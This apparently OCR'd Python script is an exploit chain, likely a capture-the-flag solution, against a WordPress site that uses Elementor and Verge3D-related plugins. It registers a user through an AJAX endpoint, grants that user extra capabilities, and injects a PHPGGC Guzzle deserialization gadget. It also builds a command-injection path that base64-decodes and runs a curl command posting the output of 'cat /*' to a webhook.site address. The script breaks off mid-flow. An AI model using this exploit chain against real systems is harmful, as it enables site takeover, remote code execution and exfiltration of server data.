 ```python
        res = await self.c.get("/wp-admin/")
        heartbeat_nonce = re.findall('var heartbeatSettings = {"nonce":"(.*?)"};', res.text)[0]
        res = await self.c.post("/wp-admin/admin-ajax.php", data={
            "data[elementor_post_lock][post_ID]": post_id,
            "interval": 15,
            "_nonce": heartbeat_nonce,
            "action": "heartbeat",
            "screen_id": "front",
            "has_focus": "false"
        })
        elementor_nonce = res.json()['elementorNonce']
        return elementor_nonce
def encode_null_byte(byte_data):
    return ''.join(r'\u0000' if byte == 0 else chr(byte) for byte in byte_data)

async def main():
    api = API()
    creds = "dimas@dimas.com"
    post_id = 163
    res = await api.c.post("/wp-admin/admin-ajax.php", params={
        "action": "build-app-online-create-user",
        "email": creds,
        "password": creds,
        "first_name": creds,
        "last_name": creds,
        "phone": "0",
    })
    res = await api.c.post("/wp-login.php", data={
        "log": creds,
        "pwd": creds
    })
    res = await api.c.post("/wp-admin/admin-ajax.php", params={
        "action": "build-app-online-update-address",
    }, data={
        "wp_capabilities[contributor]": 1,
        "wp_capabilities[manage_verge3d]": 1,
    })


    elementor_nonce = await api.get_elementor_nonce(post_id)
    with open("test.json", "r") as f:
        data = f.read()
    payload = base64.b64encode(b"curl https://webhook.site/cb9a10cb-a3d9-4e4c-b0e9-b4142cb0d852 -XPOST --data \"$(cat /*)\"").decode()
    path = f"/tmp/foo||echo {payload} | base64 -d |bash #"
    exploit = check_output(["./phpggc/phpggc","Guzzle/FW1",path,"./index.php"])

    print(path.replace("/tmp", URL+"/wp-admin/admin.php?page=verge3d_order&action=genpdf&order=asd&pdftype=").replace("#", "%23"))
    res = await api.c.post("/wp-admin/admin-ajax.php", data={
        "action": "elementor_ajax",
        "initial_document_id": post_id,
        "editor_post_id": post_id,
        "_nonce": elementor_nonce,
        "actions": data.replace('"err_email":"You have used an invalid email"', '"error_resetpassword": "'+encode_null_byte(exploit).replace('"', '\\"')+'"')
    })

    # print(res.json())

    res = await api.c.get(f"/?p={post_id}")

    nonce = re.findall('name="eael-lostpassword-nonce".*?value="(.*?)"', res.text, re.DOTALL)[0]
```